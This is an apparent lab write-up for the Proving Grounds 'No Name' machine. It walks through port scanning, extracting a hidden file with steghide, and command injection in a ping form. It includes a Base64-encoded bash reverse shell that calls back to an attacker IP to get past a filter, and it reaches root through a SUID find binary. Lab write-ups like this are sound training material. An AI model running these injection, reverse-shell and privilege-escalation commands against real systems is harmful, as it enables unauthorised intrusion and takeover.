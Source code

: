 ```yaml
---
layout: default
title: No Name
parent: Proving Grounds Play
nav_order: 18
---
```


# Scanning

---

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/noname]
└─$ sudo nmap -Pn -p- -sC -sV -T4 --open 192.168.160.15
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-10 22:57 EST
Nmap scan report for 192.168.160.15
Host is up (0.058s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).

```

# Enumeration

---

## 80 | HTTP

### Directory Busting

WFUZZ discovers _/admin_

![admin](../../../assets/images/ctfs/proving_grounds/noname/admin.png)

There is text at the bottom of the screen, maybe a password.

![passphrase](../../../assets/images/ctfs/proving_grounds/noname/passphrase.png)

Possible password: harder
{: .warn }

After downloading the 4 images from _/admin_ we run _steghide_ against them with the _harder_ passphrase.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/noname]
└─$ steghide extract -sf haclabs.jpeg --passphrase harder
wrote extracted data to "imp.txt".

┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/noname]
└─$ ls
ctf-01.jpg  haclabs.jpeg  imp.txt  new.jpg  Short.png

┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/noname]
└─$ cat imp.txt
c3VwZXJhZG1pbi5waHA=
```

Decoded the Base64 encoded string and reveal _superadmin.php_

Navigating the _superadmin.php_ reveals another page with a ping query text field.

We send a ping to _localhost_ and get feedback to the screen that it was successful.

![ping](../../../assets/images/ctfs/proving_grounds/noname/ping.png)

If we pipe the localhost to _whoami_ it executes the command so we have command injection.

# Exploitation

---

Before we can get a reverse shell on this target, we need to see which bad characters are not allowed by _superadmin.php_

Let's intercept _cat superadmin.php_ in Burp.

![ping](../../../assets/images/ctfs/proving_grounds/noname/ping.png)

We can see that many of the terms/words used in netcat or bash reverse shells are not being allowed.

We should be able to encode our reverse shell one-liner with base64 to get around this check.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/noname]
└─$ revshellgen -i 192.168.45.217 -p 9001 -t bash

[+] Reverse shell command:

bash -i >& /dev/tcp/192.168.45.217/9001 0>&1

┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/noname]
└─$ echo "bash -i >& /dev/tcp/192.168.45.217/9001 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ1LjIxNy85MDAxIDA+JjEK

```

Run the following in the ping query field

```bash
Query: localhost | echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ1LjIxNy85MDAxIDA+JjEK" | base64 -d | bash
```

We get a reverse shell on our netcat listener.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/noname]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.160.15] 60262
bash: cannot set terminal process group (893): Inappropriate ioctl for device
bash: no job control in this shell
www-data@haclabs:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

# Post-Exploitation

---

## Enumerate Users

Located the users _haclabs_ and _yash_

## Check SUID Permissions

```bash
www-data@haclabs:/home/haclabs$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/sbin/pppd
/usr/bin/pkexec
/usr/bin/find
/usr/bin/gpasswd
/usr/bin/chfn
```

We can exploit the _/usr/bin/find_ binary.

![suid](../../../assets/images/ctfs/proving_grounds/noname/suid.png)

```bash
www-data@haclabs:/home/haclabs$ /usr/bin/find . -exec /bin/sh -p \; -quit
# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
# whoami
root

```
